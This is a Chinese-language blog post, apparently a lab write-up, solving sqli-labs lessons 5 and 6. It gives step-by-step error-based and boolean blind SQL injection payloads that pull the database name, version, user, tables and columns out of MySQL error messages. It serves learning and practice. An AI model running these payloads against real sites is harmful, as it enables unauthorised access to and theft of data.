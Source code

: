 ```yaml
---
layout: post
title: sqli-labs Lesson-5-6 双重注入
subtitle: 
date: 2020-01-04
author: kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - sql
    - sql injection
    - security
---
```




## preface

这篇文章是 sqli-labs 的第五和第六关题解，都涉及到了基于报错的双重注入



## 开始做题



先按部就班吧，我们先找注入点，输入 `'` 后报错，根据报错信息确定了可能存在字符型注入

![error](https://i.loli.net/2020/01/06/7aAQW2wF85KdSXr.png)



然后就尝试闭合咯，屏幕输出 “ You are in ”

![you_are_in](https://i.loli.net/2020/01/06/C5NHWZ1mXP4ShEG.png)



接下去用 `order by` 爆破字段的个数，4 的时候报错，所以只有三个字段

![column_num](https://i.loli.net/2020/01/06/vexXI54PQiGTRmW.png)



再来看看会不会有字段显示出来，用 union 查询



不显示东西。。如果有记录的话就会显示 “you are in” ，没记录的话直接就报错了，这里我没办法了，上网看了别人的解决方案，学习到了一波新的知识然后自己用不同方法做了一遍



这种基于报错的但是页面又不显示出表的字段的 sql 注入都可以通过 sql 聚合函数和分组来回显报错信息，简单来说就是用 `count(*)` 、`rand()` 以及 `group by` 三个函数就可以将我们想要获取的信息通过报错的方式显示出来，具体原理以后再~~补~~（咕），不过这种方法只能用 limit 来一条一条输出，不能用 group_concat 来拼接



看下下面这个句子，这就是个标准的报错公式，rand() 函数生成一个 0-1 的随机数，floor() 的功能是向下取整，因此 floor(rand(0)*2)  就是 0 或者 1 ，看报错信息，这里说 entry 重复了

```sql
mysql> select count(*),floor(rand(0)*2) x from information_schema.tables group by x; 
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key' 
```



我们用 concat 连接一下试试会发生什么

```sql
mysql> select count(*),concat('------',(floor(rand(0)*2))) x from information_schema.tables group by x; 
ERROR 1062 (23000): Duplicate entry '------1' for key 'group_key' 
```



可以看到，报错信息被改变了，也就是说我们的自定义字符串和原本报错的 entry 给拼接在了一起，我们就是利用这个特点来进行注入的，接下来就查询一下这张表所在的数据库

```sql
' union select 1, count(*),concat(database(),'-',floor(rand(0)*2))a from information_schema.tables group by a--+
```

![encode-error](https://i.loli.net/2020/01/06/ufxTUHknicoAYV8.png)



报错了，肯定是编码的问题。在网上查到解决办法，用 `binary()` 函数转化一下即可，然后就得到了数据库的名字

```sql
' union select 1, count(*),concat(binary(database()),'-',floor(rand(0)*2))a from information_schema.tables group by a--+
```

![database](https://i.loli.net/2020/01/06/hHFa2yRYSW3bGdz.png)



> 这里分享一下网上一位老哥的做法，有点啰嗦，但是很巧妙，用 substr() , ascii() 等函数将数据库名字分来，一位意味猜，这算是基于布尔的盲注了



根据报错与否判断出数据库的长度

```sql
' or length(database())=8 --+
```

再根据 ASCII 字符的大小比较来判断数据库每一位是什么，就这样一位一位硬核爆出来，感觉思路很好，万一有些函数被禁了就可以尝试一下这种方法

```sql
' or substr(database(),2,1)='e' --+
```



再查询相关信息，平台，数据库版本等

```sql
' union select 1, count(*),concat_ws('-', binary(@@version_compile_os), user(), version(),floor(RAND(0)*2))a from information_schema.tables group by a--+
```

![all-info](https://i.loli.net/2020/01/06/lpLwR2C8r6qvGcg.png)



接下去就爆出表的名字，但是报错了，说子查询的结果多于 1 列

```sql
' union select 1, count(*),concat_ws('-', (select table_name from information_schema.tables where table_schema='security'),floor(RAND(0)*2))a from information_schema.tables where table_schema='security' group by a--+
```

![table](https://i.loli.net/2020/01/06/d2HEZam7RnJs1Ml.png)



想起来，这种基于聚合函数的报错只能用 limit 一条一条看，那就改一下，一个一个查，查到三张表，`uagents`、`users` 、`emails` 和 `referers` 

```sql
' union select 1, count(*),concat_ws('-', (select table_name from information_schema.tables where table_schema='security' limit 0, 1),floor(RAND(0)*2))a from information_schema.tables where table_schema='security' group by a--+
```

![tables](https://i.loli.net/2020/01/06/VZarthxO6PH1Ggi.png)



表名应该就是 users 了，就算不是也可以一个一个查。知道数据库和表名，字段的个数也知道了，接下去就判断字段的名称了，先用 count 查到有 3 个字段（废话，前面就已经知道了，只是提供一种方法）

```sql
' union select 1, count(*),concat_ws('-', (select column_name from information_schema.columns where table_name='users' and table_schema='security' limit 1, 1), floor(RAND(0)*2))a from information_schema.tables where table_schema='security' group by a--+
```

![columns](https://i.loli.net/2020/01/06/tVY7xLiRfT2lKEq.png)



然后就一个一个爆字段，得到所有的字段名和在表中的顺序，到这里也就将所有的信息都爆出来了，结束注入，第六题是一样的，就是将单引号变成双引号而已



## reference



https://www.jianshu.com/p/8c2343705100

https://blog.51cto.com/obnus/532116

https://blog.csdn.net/baidu_37576427/article/details/76146974